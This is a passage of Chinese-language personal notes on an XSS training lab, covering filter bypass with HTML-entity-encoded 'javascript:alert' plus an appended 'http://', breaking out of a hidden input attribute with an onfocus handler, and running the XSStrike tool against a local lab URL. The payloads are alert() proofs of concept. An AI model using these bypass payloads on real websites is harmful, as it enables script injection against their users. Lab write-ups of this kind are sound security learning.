 ![image-20240507225052336](D:\Infiltration\笔记\note\图片\image-20240507225052336.png)

拼接上http://

```
&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0031&#x0029;('http://')
```

![image-20240507225145152](D:\Infiltration\笔记\note\图片\image-20240507225145152.png)





##### 第十关

隐藏属性触发闭合



![image-20240507225940906](D:\Infiltration\笔记\note\图片\image-20240507225940906.png)

修改标签鼠标点击触发js语句

```
?t_sort=" onfocus=javascript:alert() type="text
```

![image-20240507230046108](D:\Infiltration\笔记\note\图片\image-20240507230046108.png)



#### XSS工具

[项目地址](https://github.com/s0md3v/XSStrike)



```
python xsstrike.py -u "http://192.168.100.2:1002/level11.php"
```

![image-20240507232728129](D:\Infiltration\笔记\note\图片\image-20240507232728129.png)

复制payload成功绕过

![image-20240507232650763](D:\Infiltration\笔记\note\图片\image-20240507232650763.png)




















